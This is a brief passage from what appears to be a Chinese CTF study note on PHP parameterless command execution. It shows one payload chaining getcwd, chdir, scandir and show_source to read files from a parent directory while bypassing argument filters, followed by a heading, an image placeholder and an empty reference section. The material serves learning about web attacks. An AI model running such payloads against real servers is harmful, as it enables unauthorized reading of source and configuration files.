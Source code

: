 ```php
show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));
```

## <mark style="color:green;background-color:blue;">2)无参数命令执行</mark>

当出现以下这种情况的时候，我们就需要知道他是要我们采取无参数命令执行了。

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





























## <mark style="background-color:red;">参考传递门：</mark>












